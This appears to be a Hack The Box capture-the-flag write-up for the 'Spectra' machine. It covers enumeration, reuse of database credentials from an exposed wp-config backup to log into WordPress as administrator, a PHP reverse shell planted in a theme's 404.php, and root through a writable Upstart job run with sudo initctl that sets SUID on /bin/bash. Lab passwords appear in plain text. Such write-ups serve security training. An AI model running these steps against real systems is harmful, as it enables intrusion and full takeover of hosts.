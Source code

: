 ![](spectra_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.229 spectra.htb

__nmap scan:__
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
```

* webserver nginx 1.17.4 running 2 wordpress in diffrent directories on the same host.
```bash
http://spectra.htb/main/
http://spectra.htb/testing/
```

![](screenshots/web-page.png)

## wordpress

Running `wpscan` on `/main` wordpress found -
* WordPress version 5.4.2
* __User:__ administrator

`/testing/` wordpress gives "Error establishing a database connection" which preventing to run wpcan.

But it allows file indexing at `/testing` and from there found `wp-config.php`

![](screenshots/file-indexing.png)

Got __dbcreds:__ `devtest:devteam01` from `/wp-config.php.save`

Try connecting to mysql server return error.
```bash
❯ mysql -h 10.10.10.223 -u devteam -pdevteam01
ERROR 2002 (HY000): Can't connect to MySQL server on '10.10.10.223' (115)
```

but Password worked on `/main` wordpress login with username __`administrator`__.

# Foothold:wordpress_admin_rev_shell

Edit them and upload php reverse shell in the `404.php` file <!--administrator:devteam01-->

![](screenshots/upload-rev-shell.png)

and go to same theme `404.php` file to execute reverse shell
```bash
http://spectra.htb/main/wp-content/themes/twentytwenty/404.php
```

![](screenshots/web-shell.png)

# Privesc:initctl_with_sudo

found more dbcreds from `/main` wordpress config file
```bash
nginx@spectra /usr/local/share/nginx/html/main $ cat wp-config.php | grep -i 'DB_USER\|DB_PASSWORD'
define( 'DB_USER', 'dev' );
define( 'DB_PASSWORD', 'development01' );
```

Found a conf file `autologin.conf.orig` in `/opt` directory which reads password from multiple folders. From `/etc/autologin` get new password which worked for user "katie" in ssh login.
<!--katie:SummerHereWeCome!!-->

![](screenshots/more-passwd.png)

User "katie" have sudo rights to run `/sbin/initctl` as any user on the box with NOPASSWD and SETENV enable.

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

* __`initctl`__ [man page](https://linux.die.net/man/8/initctl), initctl allows a system administrator to communicate and interact with the Upstart init(8) daemon.
* __Upstart:__ software is an event-based replacement for the traditional init daemon—the method by which several Unix-like computer operating systems perform tasks when the computer is started.
  * [upstart doc](http://upstart.ubuntu.com/cookbook/)
* __upstart scripts:__ An Upstart script is a combination of states and events. Upstart scripts are located in `/etc/init/` directory with a `.conf` extension. The scripts are called "System Jobs" and run using sudo privileges. Just like system jobs we also have "User Jobs" that are located at `$HOME/.init/` directory. (Note: Only Ubuntu versions above 11.10 support user jobs). After internal upstart initialization, it emits an event called ‘startup’ which triggers rest of system and user jobs. 
  * writing upstart jobs [official doc](http://upstart.ubuntu.com/getting-started.html), [blog](https://blog.joshsoftware.com/2012/02/14/upstart-scripts-in-ubuntu/)

## initctl with sudo

User katie is in "developers" group
```bash
katie@spectra /etc/init $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
```

and there are some job scripts in `/etc/init` folder which writable by "developers" group users.

![](screenshots/katie-dev-jobs.png)

__stop "test" job__
```bash
#to check if job is running
sudo -u root /sbin/initctl list

sudo -u root /sbin/initctl stop test
```

__Creating upstart job script__
```bash
cat > /etc/init/test.conf << EOF
description "initctl privesc"

start on filesystem or runlevel [2345]
stop on shutdown

script
    chmod +s /bin/bash
end script

post-stop script
    # clean up
    echo '' > /etc/init/test.conf
end script
EOF
```

__restart job__
```bash
sudo -u root /sbin/initctl start test
```

![](screenshots/spectra-rooted.png)


